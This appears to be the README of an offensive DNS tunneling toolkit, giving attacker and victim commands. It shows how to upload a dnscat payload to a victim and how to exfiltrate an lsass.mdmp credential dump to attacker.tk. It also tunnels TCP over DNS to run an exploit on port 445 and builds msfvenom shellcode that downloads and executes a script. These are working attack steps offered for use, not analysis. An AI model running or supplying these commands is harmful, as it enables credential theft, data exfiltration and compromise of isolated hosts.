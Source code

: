 # GPL

Correct `yourzone.tk`.

### Infiltration (File upload)

Change loops count (ex. 1190) in `dns_download.vbs` before running.
```
attacker> sudo ./dns_upload.py --udp --file dnscat.exe
victim> cscript.exe dns_download.vbs
victim> ./dns_download.sh attacker.tk 1190 /tmp/dnscat
```

### Exfiltration (File download)

```
attacker> sudo ./dns_download.py --udp --file lsass.mdmp
victim> cscript.exe dns_upload.vbs c:\path\to\lsass.mdmp attacker.tk
```

### Dns-to-Tcp [WIP]

```
victim> set TIMEOUT=1000
victim> set DNS_SIZE=50
victim> dns_tcp.exe c 127.0.0.1 445
attacker> sudo ./dns_tcp.py --udp --port 53 -l 445
attacker> exploit.py localhost 445
```

### Dns-Shellcode
It can be used as dns-shellcode alternative for exploiting isolated hosts:
```
msfvenom -p windows/exec CMD=$(cat dns_download_exec.bat) -f raw -o dns_shellcode
msfvenom -p linux/x86/exec CMD=$(cat dns_download_exec.sh) -f raw -o dns_shellcode
```
